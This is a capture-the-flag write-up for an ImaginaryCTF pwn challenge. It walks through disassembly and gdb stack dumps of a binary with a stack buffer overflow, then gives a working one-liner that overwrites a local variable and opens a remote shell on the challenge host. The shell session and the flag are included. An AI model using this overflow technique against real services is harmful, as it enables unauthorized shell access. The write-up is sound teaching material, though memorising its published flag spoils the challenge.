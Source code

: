 # STACKOVERFLOW
```
Description
Welcome to Stack Overflow! Get answers to all your programming questions right here!

Attachments
https://imaginaryctf.org/r/E795-stackoverflow nc chal.imaginaryctf.org 42001
```

- File : [stackoverflow](../attachements/stackoverflow/stackoverflow)

Upon connection via ncat we obtain a greeting message and we have to input text :
```
Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, we would like you to answer a question. What's your favorite color?
a
Thanks! Now onto the posts!
ERROR: FEATURE NOT IMPLEMENTED YET
```

So we need to type the right sequence of char to obtain the flag.

By inspecting the binary we see a **cmp **instruction after the **scanf** instruction :
```
[...]
│           0x00000825      e866feffff     call sym.imp.__isoc99_scanf
│           0x0000082a      488d3d750100.  lea rdi, str.Thanks__Now_onto_the_posts_ ; 0x9a6 ; "Thanks! Now onto the posts!"
│           0x00000831      e82afeffff     call sym.imp.puts
│           0x00000836      48817df86674.  cmp qword [var_8h], 0x69637466
│       ┌─< 0x0000083e      751f           jne 0x85f
│       │   0x00000840      488d3d7b0100.  lea rdi, str.DEBUG_MODE_ACTIVATED. ; 0x9c2 ; "DEBUG MODE ACTIVATED."
│       │   0x00000847      e814feffff     call sym.imp.puts
│       │   0x0000084c      488d3d850100.  lea rdi, str._bin_sh        ; 0x9d8 ; "/bin/sh"
│       │   0x00000853      b800000000     mov eax, 0
│       │   0x00000858      e813feffff     call sym.imp.system
│      ┌──< 0x0000085d      eb0c           jmp 0x86b
│      ││   ; CODE XREF from main @ 0x83e
│      │└─> 0x0000085f      488d3d7a0100.  lea rdi, str.ERROR:_FEATURE_NOT_IMPLEMENTED_YET ; 0x9e0 ; "ERROR: FEATURE NOT IMPLEMENTED YET"
│      │    0x00000866      e8f5fdffff     call sym.imp.puts
│      │    ; CODE XREF from main @ 0x85d
│      └──> 0x0000086b      b800000000     mov eax, 0
│           0x00000870      c9             leave
└           0x00000871      c3             ret
```

we need to avoid the **jne** at **0x83e** in order to get to the **system('/bin/sh')** at **0x858**

With gdb we see that the comparison is done between whatever is written at rbp-0x8 and 0x69637466 (= "ictf" in ascii ) :
```
=> 0x555555400836 <main+124>:    cmp    QWORD PTR [rbp-0x8],0x69637466
```
at **rbp-0x8** is written **BBBB** we must rewrite it with a buffer overflow :
```
[-------------------------------------code-------------------------------------]
   0x555555400825 <main+107>:    call   0x555555400690 <__isoc99_scanf@plt>
   0x55555540082a <main+112>:    lea    rdi,[rip+0x175]        # 0x5555554009a6
   0x555555400831 <main+119>:    call   0x555555400660 <puts@plt>
=> 0x555555400836 <main+124>:    cmp    QWORD PTR [rbp-0x8],0x69637466
   0x55555540083e <main+132>:    jne    0x55555540085f <main+165>
   0x555555400840 <main+134>:    lea    rdi,[rip+0x17b]        # 0x5555554009c2
   0x555555400847 <main+141>:    call   0x555555400660 <puts@plt>
   0x55555540084c <main+146>:    lea    rdi,[rip+0x185]        # 0x5555554009d8
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe100 --> 0x42424242 ('AAAA')
0008| 0x7fffffffe108 --> 0x555555400880 (<__libc_csu_init>:    push   r15)
0016| 0x7fffffffe110 --> 0x0 
0024| 0x7fffffffe118 --> 0x5555554006b0 (<_start>:    xor    ebp,ebp)
0032| 0x7fffffffe120 --> 0x7fffffffe220 --> 0x1 
0040| 0x7fffffffe128 --> 0x42424242 ('BBBB')
0048| 0x7fffffffe130 --> 0x0 
0056| 0x7fffffffe138 --> 0x7ffff7dfab25 (<__libc_start_main+213>:    mov    edi,eax)
[------------------------------------------------------------------------------]
```

Here I typed **AAAA** ( @0x7fffffffe100 on the stack ) and we need to overflow **BBBB** ( @0x7fffffffe128 ) with **ictf**

`0x7fffffffe128 - 0x7fffffffe100 = 40 buffer chars`

`+ ftci` (backward because of little-endianness )

The solution is :
```
$ ( python -c "print('A'*40+'ftci')" ; cat ) | ncat chal.imaginaryctf.org 42001  
```

```                                                        
Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, we would like you to answer a question. What's your favorite color?
Thanks! Now onto the posts!
DEBUG MODE ACTIVATED.
ls
flag.txt
run
cat flag.txt
ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}
```

flag : `ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}`
